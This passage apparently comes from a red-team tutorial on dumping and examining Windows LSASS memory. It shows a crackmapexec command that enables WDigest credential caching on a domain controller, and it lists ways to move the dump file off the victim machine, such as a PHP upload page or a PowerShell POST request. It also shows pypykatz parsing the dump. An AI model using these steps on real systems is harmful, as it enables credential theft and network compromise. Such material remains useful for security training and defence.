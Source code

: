 ```bash
└─$ crackmapexec smb 192.168.x.x -u 0xhav0c -p 'Password123!' -M wdigest -o action=enable
SMB         192.168.x.x    445    DC               [*] Windows Server 2012 R2 Standard 9600 x64 (name:DC) (domain:secybr.com) (signing:True) (SMBv1:True)
SMB         192.168.x.x    445    DC               [+] secybr.com\0xhav0c:Password123! (Pwn3d!)
WDIGEST     192.168.x.x    445    DC               [+] UseLogonCredential registry key created successfully
```

# Moving Dump Files to Attacker Device

Once you have the dump file, you can transfer it to the device where you can use mimikatz in many ways.

- You can copy paste with RDP.
- You can mount your disk to that device before sending the RDP connection.
- You can create a simple PHP page, configure it to accept file uploads to this address, and transfer the file to yourself with a POST request with Powershell on the victim device.
- If the victim has python on the device, you can create a simple web page by using the `http-server` module.
- Or you can upload it to an upload site that comes to mind first and get it from there.

# Examining Dump Files

## Method 1 - Examining Dump Files Using pypkatz

```bash
└─$ pypykatz lsa minidump lsass.DMP
```
![Examining dump files using pypkatz (Since the output is long, it is shared to the terminal.)](/assets/img/pitcures/red-team/dumplsass18.png)
_Examining dump files using pypkatz (Since the output is long, it is shared to the terminal.)_
## Method 2 - Examining Dump Files using mimikatz.exe

